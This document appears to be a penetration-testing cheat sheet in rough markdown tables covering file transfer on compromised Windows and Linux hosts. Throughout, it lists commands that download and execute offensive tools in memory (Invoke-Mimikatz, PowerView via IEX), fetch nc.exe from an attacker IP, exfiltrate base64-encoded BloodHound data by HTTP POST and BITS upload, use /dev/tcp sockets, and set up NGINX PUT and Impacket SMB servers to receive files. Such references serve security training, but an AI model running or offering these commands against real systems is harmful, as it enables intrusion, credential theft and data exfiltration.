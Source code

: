| **Command** | **Description** |
| --------------|-------------------|
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`  | Execute a file in memory using PowerShell |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64` | Upload a file with PowerShell |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe` | Download a file using Certutil |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a file using cURL |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |
| # linux
| **Command** | **Description** |
| --------------|-------------------|
| `OPPESLL Transfer File `
| `openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem` | Create certificate
| `openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh` | Stand up server
| `openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh` | Download file
| 
| # Bash (/dev/tcp)
| `exec 3<>/dev/tcp/10.10.10.32/80` | Connect to Target's Webserver
| `echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3` | HTTP GET Request
| `cat <&3` | Print the Response
|
| `php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'` | Fopen()
| `php -r '$rfile = "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"; $lfile = "LinEnum.sh"; $fp = fopen($lfile, "w+"); $ch = curl_init($rfile); curl_setopt($ch, CURLOPT_FILE, $fp); curl_setopt($ch, CURLOPT_TIMEOUT, 20); curl_exec($ch);'` | Php-curl
|
| `import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")` | python2
| `import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")` | python3
|
| `ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'` | ruby
| `perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'` | perl
|
|Go
|```
package main
import (
	 "os"
     "io"
     "net/http"
)

func main() {
     lfile, err := os.Create("LinEnum.sh")
     _ = err
     defer lfile.Close()

     rfile := "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"
     response, err := http.Get(rfile)
     defer response.Body.Close()

     io.Copy(lfile, response.Body)
}```


| `Windows`
|
| `(New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1',"C:\Users\Public\Downloads\PowerView.ps1")` | PowerShell Downloads
| `Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1`
| `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')`
| `Invoke-WebRequest https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 | iex`
| `Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | iex;`
| `Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"`
| `Upload File Poweshell`
| ```$b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/users/public/downloads/BloodHound.zip' -Encoding Byte))` 
|    Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64 ```
| `Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql`
|
| ```Catching Files over HTTP/SMB ```
| `Nginx Enable PUT`
| 1 - `sudo mkdir -p /var/www/uploads/SecretUploadDirectory`
| 2 - ` sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory`
| 3 - ```Create the NGINX Configuration file, by creating the file /etc/nginx/sites-available/upload.conf with the contents:```
```server {
	listen 9001;
	
	location /SecretUploadDirectory/ {
		root	/var/www/uploads;
		dav_methods	PUT;
	}
}
```
| 4-`Symlink our site to the sites-enabled directory.: sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/`
| 5 - `Start nginx : sudo systemctl restart nginx.service`
| 6 - `tail -2 /var/log/nginx/error.log`
| 7 - `sudo rm /etc/nginx/sites-enabled/default`
|
| ```Impacket SMBServer - Syntax```
| `smbserver.py -smb2support <share name> <location>`
| example : ```mkdir Transfers && cd Transfers
|             r00Tve0m@root[root]$ /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support FileTransfer $(pwd)```
|
|              ```smbserver.py -user USERNAME -password PASSWORD FileTransfer $(pwd)```
| 
